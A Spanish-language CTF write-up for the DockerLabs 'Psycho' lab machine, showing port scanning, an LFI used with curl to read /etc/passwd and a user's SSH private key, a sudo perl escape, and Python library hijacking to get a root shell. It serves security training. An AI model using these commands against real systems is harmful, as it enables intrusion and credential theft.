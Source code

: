# 🧠 Máquina: Psycho

**Nivel:** Fácil

**Plataforma:** DockerLabs

**Objetivo:** Obtener acceso como root explotando vulnerabilidades web y de configuración.

---

## 📦 Despliegue de la Máquina

Descargamos y descomprimimos la máquina:

```bash
unzip psycho.zip
sudo bash auto_deploy.sh psycho.tar
```

📸 ![](/Psycho/Imagenes/Logo.png)

📸 ![](/Psycho/Imagenes/Despliegue.jpeg)

Comprobamos la conectividad con `ping`:

```bash
ping 172.17.0.2
```

📸 ![](/Psycho/Imagenes/Ping.jpeg)

---

## 🔍 Enumeración

### Escaneo de Puertos

Usamos `nmap` para detectar los puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

📸 ![](/Psycho/Imagenes/Puertos.jpeg)

Usamos un script personalizado `extractPorts` para facilitar el siguiente escaneo:

```bash
nmap -sC -sV -p 22,80 172.17.0.2 -oN target.txt
```

📸 ![](/Psycho/Imagenes/Servicios.jpeg)

---

## 🌐 Análisis Web

Visitamos la página principal en el puerto 80:

📸 ![](/Psycho/Imagenes/Pagina.jpeg)

### Fuzzing con Gobuster

Ejecutamos `gobuster` para encontrar directorios y archivos ocultos:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

📸 ![](/Psycho/Imagenes/Gobuster.jpeg)

Se encontraron dos rutas relevantes:

* `/assets`
  📸 ![](/Psycho/Imagenes/Directorio.jpeg)

* `/index.php/assets#` (mediante fuzzing manual)
  📸 ![](/Psycho/Imagenes/Oculto.jpeg)

### Análisis de Imagen

Descargamos una imagen y la analizamos con `exiftool` buscando metadatos sensibles, pero no se encontró información útil:

```bash
exiftool background.jpg
```

📸 ![](/Psycho/Imagenes/Metadatos.jpeg)

---

## 💥 Vulnerabilidad LFI (Local File Inclusion)

En el código fuente de la página se observó un posible error, que explotamos con LFI:

```bash
curl -s -X GET "http://172.17.0.2/?secret=/etc/passwd" | grep "sh$"
```

📸 ![](/Psycho/Imagenes/Usuarios.jpeg)

Esto nos revela usuarios del sistema con shell válido, entre ellos:
`root`, `ubuntu`, `vaxei`, `luisillo`

---

## 🔑 Robo de Clave SSH

Aprovechamos la vulnerabilidad LFI para extraer la clave privada de SSH del usuario `vaxei`:

```bash
curl -s -X GET "http://172.17.0.2/?secret=/home/vaxei/.ssh/id_rsa"
```

📸 ![](/Psycho/Imagenes/curlKey.jpeg)
📸 ![](/Psycho/Imagenes/Key.jpeg)

Guardamos la clave como `id_rsa` y le damos permisos adecuados:

```bash
chmod 600 id_rsa
```

Nos conectamos vía SSH:

```bash
ssh -i id_rsa vaxei@172.17.0.2
```

📸 ![](/Psycho/Imagenes/webshell.jpeg)

---

## 📂 Revisión Inicial del Sistema

Inspeccionamos archivos visibles:

```bash
ls -l
cat file.txt
```

Archivo encontrado: `file.txt`
Contenido:

```
kflksdfsad  
asdsadsad  
asdasd  
```

---

## 🚀 Escalada de Privilegios

Verificamos los privilegios `sudo` del usuario `vaxei`:

```bash
sudo -l
```

📸 ![](/Psycho/Imagenes/Escalada.jpeg)

El resultado indica que `vaxei` puede ejecutar `perl` como el usuario `luisillo` sin contraseña:

```
(luisillo) NOPASSWD: /usr/bin/perl
```

### Escalamos a `luisillo`:

```bash
sudo -u luisillo /usr/bin/perl -e 'exec "/bin/bash";'
```

---

## 🧑‍💻 Escalada a Root

Ya como `luisillo`, encontramos que el script `/opt/paw.py` llama a un archivo `subprocess.py`.

Creamos un archivo `subprocess.py` con el siguiente contenido malicioso:

```python
import os
os.system('bash')
```

Ejecutamos el script:

```bash
sudo /usr/bin/python3 /opt/paw.py
```

Esto lanza una shell como **root**.

📸 ![](/Psycho/Imagenes/root.jpeg)

---

## ✅ Conclusiones

* Se descubrió una vulnerabilidad de inclusión de archivos locales (LFI).
* Se logró extraer una clave privada SSH.
* Se obtuvo acceso SSH como usuario normal (`vaxei`).
* Se escaló a otro usuario (`luisillo`) mediante `sudo` mal configurado.
* Finalmente, se escaló a **root** al abusar de un script que ejecutaba código arbitrario en Python.

